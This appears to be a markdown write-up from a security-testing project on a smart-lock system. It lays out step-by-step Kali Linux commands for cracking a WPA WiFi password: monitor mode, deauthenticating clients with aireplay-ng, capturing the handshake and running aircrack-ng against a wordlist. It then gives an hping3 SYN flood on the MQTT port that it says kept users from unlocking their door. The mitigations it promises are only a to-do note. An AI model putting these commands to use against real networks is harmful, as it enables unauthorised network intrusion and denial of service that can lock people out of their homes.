 # Security Testing
## Accessing Network
To access the network, we would have to crack the password to enter WiFi network which is done using Kali Linux. To do so, we first need a wireless adapter which in our case is named "wlan0". We would then first stop any concurrent activity using the WiFi interface by running the following command on the terminal:
```console
kali@kali:~$ airmon-ng check kill
```
We then run the next command to enter montiring mode on the wlan0 interface.
```console
kali@kali:~$ airmon-ng start wlan0
```
After that, we would first view all the WiFi networks around us and find our target network by running the command.
```console
kali@kali:~$ airodump-ng wlan0mon
```
At this point we are able to view the different SSID, MAC address of WAP, channels, etc. Once target network is found, we will view all the connected clients by using the command:
```console
kali@kali:~$ airodump-ng -c <channel no.> --bssid <MAC Address of WAP> -w <Name of file for output> wlan0mon
```
From here, we will open up another terminal to disconnect the clients connected to the target network by running the command.
```console
kali@kali:~$ aireplay-ng -0 10 -a <MAC address of WAP> wlan0mon
```
Note that:
-0 : For deauthentication
10 : No. of deauthentication packets to be sent
-a : For the bssid of the target network

Once all clients are disconnected from the target network, we will wait for clients to join back and receive a WPA handshake from this process. After this we will crack the password using the output file we created from the command to view the connected clients to the network. We will run the command:
```console
kali@kali:~$ aircrack-ng -a2 -b <MAC Address of WAP> -w <Output file path> <File of Common Passwords>
```
Note that file of common passwords can be retrieve from crunch tools on Kali website. </br>
We then waited until the WiFi password is matched, hence, we are now able to access the network.


## Attacked target device
Conducted a denial-of-service (DOS) attack by using the "hping3" tool which allows us to send manipulated packets including size, quantity, and fragmentation of packets in order to overload the target.
</br>
</br>
Command Used:
```console
kali@kali:~$ sudo hping3 "IP ADDRESS of Target" -q -n -d 120 -S -p 8883 --flood --rand-source
```
Note: Port used is 8883 (MQTT TLS port). </br>
We were successful in disrupting the MQTT services which disallowed the users from unlocking their door.

*Indicate how IP address is scanned </br>
*For Brian from TR:
Steps + Also to add mitigation: </br>
1. Break into WiFi </br>
2. Scan the network and find IPs with the manufactuer</br>
3. DoS the IP (both phone and lock) to deny entry </br>
(Remember to add mitigations)
